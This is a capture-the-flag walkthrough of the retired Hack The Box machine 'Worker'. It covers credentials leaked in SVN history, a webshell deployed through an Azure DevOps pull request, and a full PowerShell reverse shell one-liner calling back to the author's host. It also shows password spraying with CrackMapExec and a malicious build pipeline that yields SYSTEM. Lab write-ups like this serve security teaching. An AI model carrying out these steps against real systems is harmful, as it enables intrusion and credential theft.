



# Worker

This is the write-up for the box Worker that got retired at the 30th January 2021.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.203    worker.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/worker.nmap 10.10.10.203
```

```
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
3690/tcp open  svnserve Subversion
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking Apache Subversion (Port 3690)

On port 3690 the service **Apache Subversion (SVN)** is running.
This is a software versioning system such as **Git** and there is probably some code hosted there.

The `svn` command can be used to interact with the service:
```
svn list svn://10.10.10.203

dimension.worker.htb/
moved.txt
```

Downloading all files to our local client:
```
svn checkout svn://10.10.10.203
```

The folder name _dimension.worker.htb_ looks like a hostname that should be added to the _/etc/hosts_ file.
The text file _moved.txt_ contains a notification, that the repository is maintained on the hostname _devops.worker.htb_ that also has to be added to the _/etc/hosts_ file:
```
This repository has been migrated and will no longer be maintaned here.
You can find the latest version at: http://devops.worker.htb

// The Worker team :)
```

Checking the revisions of the repository and it discloses the username _nathen_ and five revisions:
```
svn log

r5 | nathen | 2020-06-20 15:52:00 +0200 (Sat, 20 Jun 2020) | 1 line
Added note that repo has been migrated
(...)
```

Going through the changes of the revisions:
```
svn up -r 3

Updating '.':
A    deploy.ps1
Updated to revision 3.
```

Contents of _deploy.ps1_ in revision 3:
```
$user = "nathen"
# NOTE: We cant have my password here!!!
(...)
```

It looks like that it had a password before and credentials can be found in _deploy.ps1_ of revision 2:
```
svn up -r 2
```
```
$user = "nathen"
$plain = "wendel98"
(...)
```

Lets check the different hostnames on port 80 where these credentials may be useful.

## Checking HTTP (Port 80)

The website on the IP shows the default **IIS** page, but another page on the hostname _dimension.worker.htb_.

It is a custom developed website that talks about the work of the developer team.
On the _Work_ page, there are some samples on different subdomains:
```
Curios on what we're currently working on are you? Well let's please you with a couple of teasers.

Alpha
This is our first page

Cartoon
When we're not working we enjoy watching cartoons. Guess who in our team is what cartoon character!

Lens
This page is for you 40+:ers. Can you read it?

Solid State
We save our data in our datacenter on blazing fast solid-state storage.

Spectral
Sounds almost like one of our favourite agents movies, but we also enjoy Hamilton

Story
Lets make a long story short, end of story
```

- Alpha: _alpha.worker.htb_
- Cartoon: _cartoon.worker.htb_
- Lens: _lens.worker.htb_
- Solid State: _solid-state.worker.htb_
- Spectral: _spectral.worker.htb_
- Story: _story.worker.htb_

All these hostnames have to be added to the _/etc/hosts_ file to access the sites and analyze them.
They are mostly static and contain no interesting information.

The webpage on _devops.worker.htb_ wants authentication but as the error shows, it is an **Azure DevOps Server**.
This is a service to maintain code and software versioning similar to **GitHub**.

The credentials of _nathen_ found earlier work and access to the service is granted.

### Checking Azure DevOps

One project named _"SmartHotel360"_ exists and in there are the repositories and builds for all websites with the target folder _w:\sites_:



It should be possible to clone the repository and put a webshell there that will be deployed to the webpage for command execution.

Cloning the repository:
```
git clone http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral
```

I will use _cmd.aspx_ from the [tennc webshell repository](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx) to upload:
```
cp fuzzdb-webshell/asp/cmd.aspx ~/htb/boxes/worker/devops/spectral/

git add .
git commit -m "Added a new file"

git push
```

A _push_ to this repository is not allowed:
```
! [remote rejected] master -> master (TF402455: Pushes to this branch are not permitted; you must use a pull request to update this branch.)
error: failed to push some refs to 'http://devops.worker.htb/ekenas/SmartHotel360/_git/spectral'
```

Creating a new _branch_ and pushing the webshell there:
```
git branch test
git checkout test

git push --set-upstream origin test
```

Now the file _cmd.aspx_ is on the repository in the branch _test_ and a pull request has to be done to merge this to the master branch:



```
Work Items: 1 --> Create --> Complete
```

After the pipeline builds the webpage, the webshell _cmd.aspx_ can be found on the _spectral.worker.htb_ page:



The reverse shell command that I will use is from the _Invoke-PowerShellTcpOneLine.ps1_ script from the **Nishang scripts**:
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.7',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Encoding it to Base64:
```
cat Invoke-PowerShellTcpOneLine.ps1 | iconv -t utf-16le | base64 -w 0
```

Executing the PowerShell reverse shell command on the webshell:
```
Program: c:\windows\system32\cmd.exe
Argument: /c powershell -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtA(...)
```

After executing the command, the listener on my IP and port 9001 starts a reverse shell as _IIS Appool\DefaultAppPool_.

## Privilege Escalation

The websites are deployed in the _W:_ share as seen before and this could have some valuable information:
```
dir W:

    Directory: W:\
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       2020-06-16     18:59                agents
d-----       2020-03-28     14:57                AzureDevOpsData
d-----       2020-04-03     11:31                sites
d-----       2020-06-20     16:04                svnrepos
```

In the directory _svnrepos\www\conf_ is a file called _passwd_ with plaintext credentials for all users.

Creating a user and a password list:
```
awk '{print $1}' passwd > users.list
awk '{print $3}' passwd > passwords.list
```

Using **CrackMapExec** to test the passwords for every user:
```
crackmapexec winrm 10.10.10.203 -u users.list -p passwords.list --no-bruteforce --continue-on-success
```
```
WINRM       10.10.10.203    5985   NONE             [+] None\robisl:wolves11 (Pwn3d!)
```

The password for the user _robisl_ works and **Evil-WinRM** can be used to gain a shell on the box as this user:
```
evil-winrm.rb -i 10.10.10.203 -u robisl -p wolves11
```

### Privilege Escalation to System

Even though a shell is obtained, this user may have access to something else in the **Azure DevOps** repository.
After login in there, _robisl_ has access to a project called _PartsUnlimited_.

The repository contains the code of [Parts Unlimited](https://github.com/microsoft/PartsUnlimited) from Microsoft, which is an eCommerce website for training purposes.
There is no build pipeline, but it can be created to execute commands:
```
Pipeline --> Builds --> New pipeline --> Use the classic editor --> Azure Repos Git --> Continue --> Empty pipeline
```

Setting up _PartsUnlimited-CI_:
```
Agent pool: Setup

Agent job 1 --> Add a task to Agent job 1 --> PowerShell --> Add

Script Path: C:\Windows\Temp\shell.ps1
```

Uploading _Invoke-PowerShellTcpOneLine.ps1_ into _C:\Windows\Temp_:
```
PS C:\Windows\Temp> wget 10.10.14.7:8000/Invoke-PowerShellTcpOneLine.ps1 -o shell.ps1
```

After clicking _"Save & Queue"_, the pipeline will start, execute the script _shell.ps1_ and the listener on my IP and port 9001 starts a reverse shell as SYSTEM!
